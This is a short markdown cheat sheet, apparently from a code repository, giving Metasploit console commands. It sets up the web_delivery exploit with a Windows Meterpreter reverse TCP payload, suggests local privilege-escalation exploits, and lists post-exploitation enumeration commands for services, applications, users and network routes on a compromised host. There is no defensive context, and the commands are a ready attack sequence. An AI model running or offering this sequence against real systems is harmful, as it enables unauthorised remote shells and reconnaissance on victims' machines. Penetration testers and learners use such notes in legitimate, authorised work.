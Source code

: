 # metasploit

## where all modules are located:

```
/usr/share/metasploit-framework/modules
```

## meterpreter

```bash
msfconsole
```

```
use exploit/multi/script/web_delivery
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

```
set target 2
```

```
set LHOST eth0
```

```
run
```

## meterpreter cool stuff

```
post/multi/recon/local_exploit_suggester
```

## meterpreter shell commands

* `sysinfo`
* `getuid`
* `ipconfig`
* `arp`
* `run post/windows/gather/enum_services`
* `run post/windows/gather/enum_applications`
* `route`
* 
